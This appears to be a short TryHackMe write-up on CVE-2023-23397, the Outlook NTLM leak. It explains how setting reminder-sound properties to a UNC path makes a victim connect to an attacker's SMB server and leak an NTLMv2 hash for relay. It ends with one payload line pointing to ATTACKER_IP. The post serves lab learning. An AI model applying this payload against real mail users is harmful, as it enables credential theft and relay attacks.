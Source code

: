 ```yaml
---
layout: post
title: "Outlook NTLM Leak"
date: 2023-06-04 
categories: ["Hands-on", "TryHackMe"]
tags: "TryHackMe","CVE-2023-23397"
---
```


# Outlook NTLM Leak
**Scenario:**
*The victim recieves a malicous email that redirects them to the attacker's SMB Server. This happens by busing CVE-2023-23397.*
## CVE-2023-23397

The exploit happens by manipulating the parameter of the reminder sound path location. Simply changing the path wont do anything. the **PidLidReminderFileParameter** should point to **Universal Naming Convention (UNC)** path instead of a local file. **PidLidReminderOverride** should be configured to true to be able to override the default the confirgurations.

When the Victim connects to the attacker's SMB server, the victim's remote server would send the NTLM. The attacker can use the NTLMv2 hash to authenticate by using the relay attack. 

```bash
\\ATTACKER_IP\foo\bar.wav
```